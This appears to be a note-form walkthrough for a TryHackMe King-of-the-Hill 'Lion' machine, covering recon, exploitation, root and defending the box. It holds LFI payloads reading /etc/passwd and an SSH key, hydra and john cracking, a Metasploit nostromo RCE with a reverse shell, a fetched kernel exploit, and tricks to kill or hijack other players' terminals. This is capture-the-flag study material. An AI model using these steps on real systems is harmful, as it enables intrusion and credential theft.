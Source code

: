 
Prepare
- mkdir ~/Prohacks/THM/Room
- cd ~/Prohacks/THM/Room
- sudo set.target.ip x.x.x.x
- nmap.target.ip
"""----------------------------------------------------------------------------------------------------------------------"""
Attacking
- Recon
- Port
    - 80
    - 1337
    - 3306
    - 5555
    - 8080
    - 9999
    - 24964
- Scan
    - 80/tcp    open  http       syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
        - /upload
        - Insecure File Upload "Perl shell"
    - 1337/tcp  open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    - 3306/tcp  open  mysql      syn-ack ttl 61 MySQL 5.7.19-0ubuntu0.16.04.1
        - hydra -l root -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> mysql
    - 5555/tcp  open  http       syn-ack ttl 61 nginx 1.10.3 (Ubuntu)
        - The page variable is the one defining on which page we are /?page=posts.php
            - http://MACHINE_IP:5555/?page=../../../etc/passwd
        - Since this is “Gloria’s blog”, we can expect there is a user named gloria in the machine 
            - http://MACHINE_IP:5555/?page=../../../home/gloria/.ssh/id_rsa
            - save it to id_rsa
            - chmod 400 id_rsa
    - 8080/tcp  open  http       syn-ack ttl 61 nostromo 1.9.6
        - This version is outdated and has a Remote Code Execution vulnerability. 
            - searchsploit (searchsploit nostromo 1.9.6)
    - 9999/tcp  open  abyss?     syn-ack ttl 61
    - 24964/tcp open  tcpwrapped syn-ack ttl 61
- Shell
    - ssh
        - ssh2john id_rsa > john
        - extract passphrase
            - john -w=/usr/share/wordlists/rockyou.txt john
        - ssh -i id_rsa -t gloria@MACHINE_IP -p 1337
    - msfconsole
        - use exploit/multi/http/nostromo_code_exec
        - set rport 8080
        - set rhost <MACHINE_IP>
        - check
        - set payload linux/x86/meterpreter/reverse_tcp
        - set lhost tun0
        - run
    - reverse shell
        - Upload "Perl shell" /upload
- Root   
    - Privilege Escalation
        - looking for root permissions
            - find / -type f \( -perm -4000 -o -perm -2000 \) -print 2>/dev/null
        - linpeas.sh
            - /usr/bin/tmux -S /.dev/session
        - kernel exploit (CVE-2017-16995)
            - wget https://raw.githubusercontent.com/gugronnier/CVE-2017-16995/master/exploit-poc-pentest.c
            - gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
            - Send it to the machine
            - chmod +x ./exploit-poc-pentest
            - ./exploit-poc-pentest
    - Become King
        - whoami
        - echo "USERNAME" > /root/king.txt
            - permission denied
                - chattr -ia /root/king.txt
            - chattr removed
                - https://busybox.net/downloads/binaries/1.31.0-i686-uclibc/
    - Flags
        - /home/gloria/user.txt 	 
        - /home/marty/user.txt 	Reversed
        - /home/alex/user.txt 	Rot13
        - /root/.flag 	 
        - /opt/code/server.py 	 
        - MySQL: db-> blog, table-> users, id-> 140
Defending
- King
    - chattr +ia /root/king.txt
    - Remove chattr
        - which chattr # Get chattr's path, default: /usr/bin/chattr
        - rm usr/bin/chattr # Or another path if different
    - clobber
        - set -o noclobber
        - add this to bashrc of root and source it
- Patching
    - Nostromo RCE Patch, port 8080
        - update it
        - putting Nostromo down and running a Python http.server
            - /var/nostromo/htdocs
            - ps aux | grep nhttpd
            - kill -9 <PID>
            - cd /var/nostromo/htdocs
            - python3 -m http.server -b <MACHINE_IP> 8080
    - LFI Patch, port 5555 
        - removing every ../ from the page variable
            - <?php include($_GET["page"]); ?> To <?php include(str_replace("../","",$_GET["page"])); ?>
    - Insecure File Upload Patch
        - quickest patch we can issue is to remove or comment line. exec("/usr/bin/perl " . $target_file);
    - OS
        - sudo
            - fixing the vulnerability in /etc/sudoers
                - remove everything from /etc/sudoers except root ALL=(ALL=ALL) ALL
        - changing ssh keys, changing passwords, look for the processes running or give cronjobs a look
        - Make copies of SUID binaries, even though they are easy to find, but can sometimes save get you a root shell from www-data.
        - SSH AuthKey
            - put your ssh keys on to the user/root authorized_keys       
- Backdoors
- Aggressive Defense
    - Get your pts number
        - /dev/pts/x
        - w
        - who
        - tty
        - echo $$
        - ps aux | grep pts
    - Find every other pts
        - ps aux | grep pts
    - Kick other players’ shells
        - kill -9 <PID>
        - pkill -9 -t pts/<OTHER_PTS_ID>
    - Breaking other players’ pts
        - echo "Hello 1337" > /dev/pts/<OTHER_PTS_ID>
        - cat /dev/urandom > /dev/pts/<OTHER_PTS_ID>
        - nyancat > /dev/pts/<OTHER_PTS_ID>
            - git clone https://github.com/klange/nyancat
            - cd nyancat/src
            - make
            - Sending Nyancat to machine
        - tetris
    - Break into the shell of other logged in users
        - script -f /dev/pts/<OTHER_PTS_ID>


https://blog.noxtal.com/writeups/2020/07/11/tryhackme-koth-lion/
https://blog.noxtal.com/cheatsheets/2020/08/08/ultimate-koth-defense-guide/
https://github.com/calebstewart/pwncat
https://gtfobins.github.io/

